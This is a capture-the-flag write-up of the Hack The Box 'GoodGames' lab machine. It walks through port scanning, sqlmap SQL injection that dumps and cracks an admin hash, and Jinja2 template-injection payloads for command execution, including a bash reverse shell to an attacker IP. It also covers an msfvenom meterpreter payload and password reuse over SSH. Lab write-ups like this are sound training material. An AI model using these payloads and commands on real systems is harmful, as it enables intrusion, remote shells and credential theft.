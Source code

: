 # GoodGames HTB Machine

GoodGames is a **Linux** HTB Machine rated **Easy** As usually we start with our Recon with Nmap or Rustscan and look for open ports.

## Nmap / Rustscan

**rustscan -a 10.10.11.130 --ulimit 5000 -r 1-65535 -- -A**
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
| http-methods: 
|_  Supported Methods: GET OPTIONS HEAD POST
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=9/17%OT=80%CT=%CU=32820%PV=Y%DS=2%DC=T%G=N%TM=68CA7AD2
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M542ST11NW7%O2=M542ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=M542ST11
OS:NW7%O6=M542ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M542NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%R
OS:UD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 2.504 days (since Sun Sep 14 23:03:42 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   364.02 ms 10.10.16.1
2   181.55 ms 10.10.11.130

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.46 seconds
```

It Looks like we only have one port open Port 80.

## Port 80

The website is running  **Werkzeug httpd 2.0.2 (Python 3.9.2)** so i went to the website.Go to the /etc/hosts and set the **goodgames.htb**.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/web.png)

On the Background also Open The Caido Proxy You can Use any other tool you want like Burp Suite or Zap but Im exploring Caido for now

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/caido.png)

Add The IP Address or DNS name GoodGames.HTB of the website to The Scope so you wont deal with unneccesary traffic.So used Ffuf to Fuzz the website and also looked around and most of the posts are made by these users **Wolfenstein, Hitman and Witch Murder** so it could be useful later or not.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/ffuf.png)

Found a few Directories using ffuf so i signup for an account.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/sign%20in.png)

After making an Account i Copied The Signup and Login request on Caido and pasted then in a file and used sqlmap to look for sqli.
**sqlmap -r <request file> --dbs**

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/sqlmap.png)

It Looks Like The Login Request is Vulnerable to SQLi **[11:33:30] [INFO] POST parameter 'email' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable**

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/dbs.png)

It looks like we have 1 database called **main** not counting the default **information_schema** of course next is to check the tables of main or just dump the database but i dont want a mess on my screen so ill take things slow.

**sqlmap -r login.txt -D main --tables --batch**

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/tables.png)

Looks like we have 3 tables so i'll probably dump the whole Database and see if There is anything interesting i could find to gain a shell.I also tried the --os-shell and other shell commands but there is no writable path and so far i dont see python when sqlmap prompt me to choose a web programming language that the website uses

```
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4
```

so SQLi could take me no where even if i dump the database there is no SSH or any other places i could get a shell and the time-based sqli is taking to long so back on testing other vulnerability and i havent fuzz for any virtual hosts.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/timebase.png)

#### VHOSTS

**ffuf -u http://goodgames.htb -H "Host: FUZZ.goodgames.htb" -w <wordlist> -fs 85107**

I tried Fuzzing for Vhosts but no luck so my only hope is to wait for sqlmap to dump the main database and see if i could find creds i could use to login maybe an account that has higher priviledges than me like root or admin.After a while i got the admin hash.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/hash.png)

Cracked The Hash on crackstation https://crackstation.net/

![ALt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/admin%20password.png)

Creds **admin@goodgames.htb:superadministrator** Got in The Administrator's Account and explored the website as the admin on the top right corner there is a tiny botton i pressed it and it redirected me to **http://internal-administration.goodgames.htb/**  so put the this on the /etc/hosts internal-administration.goodgames.htb.
 
![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/internal%20admin.png)

so i loged in with the admin creds.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/logedin.png)

while exploring the internal-administration.goodgames.htb i went to settings There was a section that wants me to General information so i tried Sqli no luck then tried SSTI since the username was being reflected.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/adminssti.png)

and it worked i got 49.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/proofofssti.png)

so now i need to figure out a way to gain cmd first we will try to use the tool SSTI you can just download it on github and run it probably let it run on the background and try some manual approach while its doing its thing.

**python3 sstimap.py -u http://internal-administration.goodgames.htb/settings -d "name=test"**

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/sstiadmin.png)

while its automating i tried a few payloads and this one worked **{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}**

![Alt](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/ssti%20root.png)

Looks like i am root now its time to try to get a reverse shell so we can get the flags. so i used this payload to gain rce on the machine **{{config.__class__.__init__.__globals__['os'].popen('bash -c "bash -i >& /dev/tcp/10.10.16.3/4444 0>&1"').read()}}** and got the user flag

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/userflag.png)

I couldnt find the root flag a while exploring the file i ran into some docker stuff so we're probably inside a docker container and we need a way to escape it,so i googled ways to escape docker container and i ran into a metasploit module that will automate that stuff i have done much of docker escaping https://www.rapid7.com/db/modules/exploit/linux/local/docker_privileged_container_escape/ so i generated a msfvenom payload **msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=10.10.16.3 lport=4445 -f elf -o msf.elf** downloaded it on the machine using wget and use the metasploit exploit/multi/handler and set the payload and other stuff like IP and Port executed the payload and got a meterpreter shell.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/metas.png)

and tried using the docker module and it did not work.

![Alt-text](https://github.com/CyberElam/HacktheBox-CTFs/blob/main/GoodGames/Screenshots/docker%20esc.png)

so i tried using the exploit suggester for a way to Privesc

after a while no luck so i looked for internal hosts i could ssh into found 1 and ssh using augustus and the admin's passowrd. I dont know much about docker escaping i did study a little bit about docker so i follow the walkthrough to get the root flag and added the docker escape to my notes for future reference.


